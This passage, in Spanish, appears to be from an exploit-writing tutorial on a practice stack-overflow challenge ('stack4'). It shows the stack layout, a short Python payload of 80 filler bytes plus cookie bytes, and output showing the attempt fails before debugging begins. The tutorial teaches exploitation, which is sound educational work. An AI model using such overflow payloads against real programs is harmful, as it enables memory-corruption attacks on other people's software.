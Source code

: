 ![](<../../../.gitbook/assets/imagen (46).png>)

Información útil del mapa de la pila:

```c
[ebp-0x54]  = buf
[ebp-0x4]   = cookie
[ebp]       = ebp anterior guardado
[ebp+0x4]   = dirección de retorno
```

#### Solución anterior: modificar valor de cookie <a href="#solucion-anterior-modificar-valor-de-cookie" id="solucion-anterior-modificar-valor-de-cookie"></a>

Probamos con la misma estrategia que en los problemas anteriores, modificando el valor de `cookie` para que el condicional se evalúe como verdadero.

```
#exploit.py

#!/usr/bin/python
output = "A" * 80 + "\x00\x0a\x0d\x00"
print output
```

Pero observamos que el mensaje ganador no se imprime:

```
user@abos:~$ python exploit.py |./stack4        
buf: bffff5b4 cookie: bffff604
user@abos:~$
```

Si debugeamos el programa vulnerable con [`gdb`](https://fundacion-sadosky.github.io/guia-escritura-exploits/herramientas.html#debugger-gdb) podemos observar porqué.
